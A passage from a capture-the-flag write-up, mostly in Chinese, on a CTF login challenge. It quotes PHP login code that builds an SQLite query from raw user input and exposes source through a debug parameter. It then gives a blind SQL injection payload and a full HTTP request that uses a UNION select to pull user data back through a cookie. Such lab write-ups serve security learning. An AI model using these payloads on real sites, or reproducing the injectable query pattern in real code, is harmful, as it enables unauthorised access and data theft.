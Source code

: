 ```php
<form method="post">
  ID:<br>
  <input type="text" name="usr">
  <br>
  Password:<br> 
  <input type="text" name="pw">
  <br><br>
  <input type="submit" value="Submit">
</form>

<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');

        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }

        if(isset($row['id'])){
                setcookie('name',' '.$row['name'], time() + 60, '/');
                header("Location: /");
                die();
        }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?>
<!-- TODO: Remove ?debug-Parameter! -->


<hr noshade>
<address>Flux Horst (Flux dot Horst at rub dot flux)</address>
</body>
```

这里存在一个典型的sql盲注。payload：usr=admin%27--+&pw=123 此时，会无debug信息。

而这里有一个技巧（仅针对题目，正常环境中应该不会出现。）服务器回复包中，有一个Set-Cookie操作，里面带了sql查询到的数据。那么我们可以利用其回显数据，把盲注打成union查询注入。

payload如下：

```
POST /login.php?debug=1 HTTP/1.1
Host: flatscience.flatearth.fluxfingers.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

usr=111' union (select 1,id from Users )--+&pw=flux
```